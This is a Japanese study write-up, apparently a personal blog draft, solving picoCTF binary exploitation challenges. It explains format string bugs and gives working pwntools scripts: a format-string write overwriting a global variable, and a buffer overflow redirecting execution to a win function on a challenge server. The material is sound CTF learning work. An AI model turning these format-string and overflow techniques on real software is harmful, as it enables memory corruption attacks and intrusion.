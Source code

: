 ```yaml
---
title: "pico - pwn1"
date: 2024-05-04T16:07:24+09:00
draft: true
---
```


pwn 何もできないので真面目にやりながらまとめる．
6月までに基本的なやつはやれたらいいなの気持ち

## format string Bug

FSB は，フォーマット文字列を扱う関数(```printf```) に起因する脆弱性．
例えば以下のような使い方を考える．

```C
printf("%s", msg);
```

一方で，攻撃者側が任意のデータを入力できる場合，例えば以下のような場合は話が変わってくる．

```C
printf(msg)
```

基本的に ```printf``` は %s, %x みたいなフォーマットを見つけるとスタックからデータを読み込んで処理する．
特に x64 の環境では関数への引数はレジスタとスタックで渡される．
整数の引数の順番は ```RDI, RSI, RDX, RCX, ...``` という順番になっている．

ここで，例えば msg に "%s, %s" などと入れることができれば，レジスタの ```RSI, RDX``` が参照される．
(RDI には "%s, %s" が入る．)

### format string 0

```C
char choice1[BUFSIZE];
scanf("%s", choice1);
```

入力を受け取る部分がこのような記述になっている．
また，フラグは以下のようなコードで表示される．

```C
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int main(~~){
~~ snip ~~
    signal(SIGSEGV, sigsegv_handler);
~~ snip ~~
}
```

なので，SIGSEGV（セグフォ）を発生させればいいということになる．
そこで，BUFSIZE を超える入力を入れることで例外を発生させる．

### format string 1

```%n$p```

### format string 2

```C
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

sus の値を書きかえる必要がある．
で，FSB で書き換えられるのは ```%n``` なので，これを使う．

pwntool の ```fmtstr_payload``` がこれを提供してくれる．
```fmtstr_payload(offset, {address:value}, numbwritten=0, write_size='short')```

- offset: フォーマット文字列のオフセット
  - %p をリトルエンディアンで 0x7025702570257025 なのでオフセットは 14

```shell
┌──(kali㉿kali)-[~/CTF]
└─$ nc rhea.picoctf.net 52736
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your input: 0x402075(nil)0x74cc57485a00(nil)0x1ff32b00x74cc574d7af00x74cc574ae4e80x90x74cc574aede90x74cc5727f0980x74cc5749b4d0(nil)0x7ffcfdf96ab00x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x74cc570070250x74cc574d86500x74cc5749d000
sus = 0x21737573
You can do better!
```

- address: 書き込み先のアドレス
  - checksec で PIE が無効なので，アドレスは固定されている．
  - sus: 0x404060

```shell
pwndbg> p &sus
$1 = (<data variable, no debug info> *) 0x404060 <sus>
```

- value: 書き込みたい内容(0x67616c66)

```C
from pwn import *

context.arch='amd64'
print(fmtstr_payload(14, {0x404060:0x67616c66}, numbwritten=0, write_size='byte').decode('utf-8'))
```

### buffer overflow 1

```C
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

```shell
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

32-bit であることを知らずに10年溶かしました．

```python
from pwn import *

r = remote("saturn.picoctf.net", 53617)
win_addr = 0x80491f6

r.recvuntil(b'string:')
payload = b'a'*(32+12) + p32(win_addr)
r.sendline(payload)
res = r.recvall()
print(res)
```
